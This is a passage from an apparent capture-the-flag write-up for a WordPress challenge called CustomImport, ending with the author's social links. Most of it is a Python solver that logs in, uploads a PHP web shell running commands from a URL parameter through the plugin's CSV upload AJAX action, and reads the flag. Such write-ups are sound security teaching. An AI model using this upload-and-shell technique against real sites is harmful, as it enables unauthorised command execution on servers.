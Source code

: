 ```python
        data = {'log': self.username, 'pwd': self.password, 'wp-submit':'Log In', 'redirect_to':urljoin(self.url, '/wp-admin/'), 'testcookie':'1'}
        req = self.session.post(urljoin(self.url, '/wp-login.php'), headers=headers, data=data)

        return '[+] Login Successful' if req.status_code == 200 else '[+] Login Failed'

    def uploadFile(self):
        print('[+] Try Uploading File')
        phpContent = b'<?php system($_GET["b4nu4"]); ?>'
        files = {'async-upload': ('b4nu4_shell.php', io.BytesIO(phpContent))}
        data = {'action': 'wpie_upload_csv_file'}
        req = self.session.post(urljoin(self.url, '/wp-admin/admin-ajax.php'), data=data, files=files)

        return req.text

if __name__ == '__main__':
    run = Exploit('b4nu4','b4nu4@test.local', 'banua@123_')
    print(run.register())
    print(run.login())
    print(run.uploadFile())
```

Run the solver:
![Solver](/assets/img/Patchstack-S02E03-WCEU-2025/CustomImport-solver.png)

Read flag in /flag\*:
![Flag](/assets/img/Patchstack-S02E03-WCEU-2025/CustomImport-readflag.png)


[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn